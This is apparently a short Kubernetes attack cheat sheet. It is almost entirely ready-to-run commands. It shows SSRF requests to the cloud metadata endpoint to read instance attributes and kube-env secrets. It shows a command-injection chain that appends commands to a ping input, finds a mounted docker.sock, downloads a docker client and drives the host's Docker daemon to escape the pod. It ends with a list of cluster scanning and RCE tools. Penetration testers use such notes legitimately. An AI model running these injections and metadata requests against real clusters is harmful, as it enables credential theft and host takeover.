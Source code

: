 ### Attack Cluster Metadata with SSRF

```bash
# Webapp that check the health of other web applications
# Request to 
curl http://169.254.169.254/computeMetadata/v1/
curl http://169.254.169.254/computeMetadata/v1/instance/attributes/kube-env
```

### Attack escaping pod volume mounts to access node and host

```bash
# Webapp makes ping
# add some listing to find docker.sock
ping whatever;ls -l /custom/docker/
# Once found, download docker client
ping whatever;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
ping whatever;tar -xvzf /root/docker-18.09.1.tgz -C /root/
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock ps
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

### Tools

```bash
# kube-bench - secutity checker
kubectl apply -f kube-bench-node.yaml
kubectl get pods --selector job-name=kube-bench-node
kubectl logs kube-bench-podname

# https://github.com/aquasecurity/kube-hunter
kube-hunter --remote some.node.com

# kubeaudit
./kubeaudit all

# kubeletctl
# https://github.com/cyberark/kubeletctl
kubeletctl scan rce XXXXXXXX

# https://github.com/cdk-team/CDK
cdk evaluate

# Api audit
# https://github.com/averonesis/kubolt

# PurplePanda https://github.com/carlospolop/PurplePanda
```
